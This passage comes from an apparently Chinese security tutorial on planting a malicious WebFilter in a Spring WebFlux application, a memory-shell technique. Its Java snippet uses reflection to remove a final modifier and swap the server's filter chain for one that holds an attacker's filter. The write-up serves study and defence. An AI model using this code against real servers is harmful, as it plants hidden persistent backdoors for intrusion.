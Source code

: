 `DefaultWebFilterChain`类存在有三个不同的重载

[![](assets/1698914691-09bff247430346b5342d82e8661ab6f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101225648-e1f03e1a-78c6-1.png)

其中第一个是 private 方法，是用来创建 chain 的中间结点，第二个是一个 public 方法，在 FilteringWebHandler 构造方法中创建 chain 也是用的这个构造方法，我们也同样使用这个方法

该构造方法需要两个参数，`handler` and `filters`

-   handler: 我们可以从线程中从 chain 中获取原始的 handler
    
    [![](assets/1698914691-8a4dbcc1e759aedc6bdac5c0d1bc29ee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101225657-e718725e-78c6-1.png)
    

-   filters: 我们的目的就是添加一个我们自定义的 filter，这里我们获取原始的 filters(不影响业务)，之后创建一个新的 List 集合之后将原始的 filters 和我们自定义的 filter 添加进入

```bash
// 获取 DefaultWebFilterChain 中的 handler 属性
Object handler1 = getField(chain, "handler");
// 获取原始 chain 中的 filters
List<WebFilter> filters = chain.getFilters();
// 创建自制的 filter 并添加进入 newFilters 集合中
ArrayList<WebFilter> newFilters = new ArrayList<>(filters);
WebFilter springWebFlux = new SpringWebFlux();
newFilters.add(springWebFlux);

// 模拟 chain 的初始化流程，创建一个包含恶意 filter 的 chain
DefaultWebFilterChain newChain = new DefaultWebFilterChain((WebHandler) handler1, newFilters);
// 反射将 newChain 替换 FilteringWebHandler 的 chain 属性
Field fieldChain = FilteringWebHandler.class.getDeclaredField("chain");
Field fieldModifiers = Field.class.getDeclaredField("modifiers");
fieldChain.setAccessible(true);
fieldModifiers.setAccessible(true);
// 去除 final
fieldModifiers.setInt(fieldChain, fieldChain.getModifiers() & ~Modifier.FINAL);
fieldChain.set(delegate2, newChain);
// 还原 final
fieldModifiers.setInt(fieldChain, fieldChain.getModifiers() & Modifier.FINAL);
```
